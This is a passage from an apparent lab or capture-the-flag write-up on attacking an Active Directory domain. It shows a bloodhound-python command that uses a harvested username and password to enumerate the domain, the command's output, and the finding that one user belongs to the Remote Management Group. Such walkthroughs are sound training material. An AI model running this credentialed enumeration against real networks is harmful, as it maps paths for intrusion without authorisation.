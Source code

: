 Loads of hashes available. Now the question is which user is part of the Remote Management Group?&#x20;

### Bloodhound -> Shell

We can use `bloodhound-python` to query the domain using the existing credentials we have.&#x20;

```
$ bloodhound-python -d resourced.local -u v.ventz -p 'HotelCalifornia194!' -c all -ns 192.168.219.175
INFO: Found AD domain: resourced.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: resourcedc.resourced.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: resourcedc.resourced.local
INFO: Found 14 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: ResourceDC.resourced.local
INFO: Done in 00M 33S
```

We can then upload all of this information to `bloodhound`. Then, we find that `l.livingstone` is part of the Remote Management Group:

<figure><img src="../../../.gitbook/assets/image (3875).png" alt=""><figcaption></figcaption></figure>
